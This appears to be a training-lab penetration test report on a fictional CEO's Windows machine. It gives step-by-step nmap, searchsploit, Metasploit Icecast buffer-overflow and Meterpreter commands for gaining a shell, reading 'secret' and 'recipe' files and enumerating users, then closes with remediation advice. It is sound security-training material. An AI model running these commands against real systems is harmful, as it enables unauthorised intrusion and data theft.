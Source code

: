     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
i also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 
    nmap -sS -sV -O 192.168.0.20

    
    Using nmap to scan the system to see any port open
![using nmap to scan the system](./Images/snap-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
    msfconsole
    search icecast
    use 0
    
    starting metasploit and searching icecast
     ![Metasploits](./Images/snap-3.PNG)

     ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    set RHOSTS 192.168.0.20
    run

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)

![RHOST setting](./Images/snap-x.PNG)

5. Search for the `secretfile.txt` on the target.

    meterpreter > search -f *secret*
OR
    meterpreter > shell
    
    The search of the secret 
![The search of secret file](./Images/snap-5.PNG)

![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    meterpreter > search -f *recipe*
    meterpreter > cd 'C:\Users/IEUser/Documents
    meterpreter > ls
    meterpreter > cat Drinks.recipe.txt
    meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)

 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.